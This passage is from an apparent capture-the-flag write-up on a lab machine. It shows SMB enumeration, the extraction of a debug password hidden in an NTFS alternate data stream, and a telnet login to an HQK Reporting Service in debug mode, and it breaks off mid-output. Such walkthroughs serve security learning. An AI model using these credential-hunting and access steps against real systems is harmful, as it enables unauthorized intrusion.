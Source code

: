 

root@hax0r:~# cat user.txt 
xxxxxxxxxxxxxxx4fd827e05f426e987
{% endhighlight %}

Now to move on to own root. I looked in the `HQK Reporting` directory, and found a password file:

{% highlight bash linenos %}
smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 18:06:17 2019
  ..                                  D        0  Thu Aug  8 18:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 07:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 18:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 18:09:05 2019

                10485247 blocks of size 4096. 6449725 blocks available
{% endhighlight %}

But, it was empty. That would have been to easy! However, looking at the file attributes, there is a stream associated to it, so I copied of the Alternate Data Stream (ADS) to get the password file:

{% highlight bash linenos %}
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 06:06:12 PM 2019 CDT
access_time:    Thu Aug  8 06:06:12 PM 2019 CDT
write_time:     Thu Aug  8 06:08:17 PM 2019 CDT
change_time:    Thu Aug  8 06:08:17 PM 2019 CDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes

smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"


root@hax0r:~# cat "/root/Debug Mode Password.txt:Password" 
WBQ201953D8w 
{% endhighlight %}

With this password, I can telnet into the box and enable Debug:

{% highlight bash linenos %}
telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
{% endhighlight %}

Still connected with this telnet session, I enumerated and going up one directory, in the LDAP directory, I found a config file:

{% highlight bash linenos %}
>list  

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>showquery 2

Domain=nest.local